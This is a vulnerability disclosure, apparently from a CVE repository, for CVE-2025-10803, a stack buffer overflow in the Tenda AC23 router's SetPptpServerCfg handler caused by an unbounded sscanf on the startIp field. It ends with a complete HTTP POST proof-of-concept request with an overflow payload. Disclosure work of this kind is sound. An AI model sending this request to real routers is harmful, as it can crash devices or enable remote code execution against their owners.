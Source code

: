 # CVE-2025-10803

## Submitter：林淦(Lingan) 罗熙(Luoxi)

## Submitter unit：广州大学 (Guangzhou University)

## Information

**Vendor of the products:**   Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:**https://www.tenda.com.cn/

**Affected products:** AC23

**Affected firmware version:** <= V16.03.07.52

**Firmware download address:** [AC23 升级软件_腾达Tenda官方网站](https://www.tenda.com.cn/material/show/3889)

## Overview

A buffer overflow vulnerability was discovered on the latest version of the Tengda AC23 router, V16.03.07.52, where an attacker sent a well-crafted http post packet to the request path /goform/SetPptpServerCfg, triggering a denial of service attack or even RCE, specifically via the function sscanf(s, "%[^.].%[^.].%[^.].%s", v10, v11, v12, &v12[8]) because there is no bounds check on s, causing a stack overflow

## Vulnerability details

It can be found that when the serverEn value is 1, it will enter the else branch to call sub_478E94 function

![](img/1.png)

When the startIp and endIp are not empty, the sscanf function causes the buffer to overflow

![](img/2.png)

## POC

```
POST /goform/SetPptpServerCfg HTTP/1.1
Host: 192.168.102.145
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://192.168.102.145/main.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

serverEn=1&endIp=aa&startIp=aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaa
```

![](img/3.png)

![](img/4.png)